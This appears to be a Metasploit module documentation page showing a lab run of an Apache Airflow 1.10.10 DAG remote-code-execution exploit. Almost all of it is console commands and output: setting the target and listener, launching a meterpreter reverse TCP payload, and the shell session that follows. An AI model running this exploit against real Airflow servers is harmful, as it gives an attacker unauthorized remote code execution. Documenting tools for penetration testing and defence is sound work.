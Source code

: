 ### Apache Airflow 1.10.10 Installed with Docker (WSL Backend) on Windows 10

* Using default TARGET 0 - Unix Command

```msf
msf6 > use exploit/multi/http/apache_airflow_dag_rce
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf6 exploit(multi/http/apache_airflow_dag_rce) > set RHOSTS 192.168.99.180
RHOSTS => 192.168.99.180
msf6 exploit(multi/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.99.180:8080/admin/airflow/login
[+] Target is running Apache Airflow.
[*] Checking Apache Airflow version...
[+] Target is running Apache Airflow Version 1.10.10.
[+] The target appears to be vulnerable. However, extra checks are still required to make sure the Experimental REST API is accessible, and the vulnerable DAG is loaded and enabled.
[*] Checking if Airflow Experimental REST API is accessible at: http://192.168.99.180:8080/api/experimental/test
[+] Airflow Experimental REST API is accessible.
[*] Checking for vulnerability of "example_trigger_target_dag.bash_task"...
[+] The "example_trigger_target_dag.bash_task" is vulnerable.
[*] Checking if "example_trigger_target_dag.bash_task" is enabled...
[+] The "example_trigger_target_dag.bash_task" is enabled.
[*] Executing TARGET: "Unix Command" with PAYLOAD: "cmd/unix/python/meterpreter_reverse_tcp"
[*] Creating a new vulnerable DAG...
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-08-11 13:50:02+00:00: manual__2023-08-11T13:50:02+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the vulnerable DAG. This might take a while...
[!] If the Bash task is never queued, then the Scheduler might not be running.
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[*] Bash task is queued...
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:55369) at 2023-08-11 20:21:08 +0630
[+] Bash task is running. Expect a session if executed successfully.

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : b53431a5c934
OS              : Linux 5.15.90.1-microsoft-standard-WSL2 #1 SMP Fri Jan 27 02:56:13 UTC 2023
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter >
```
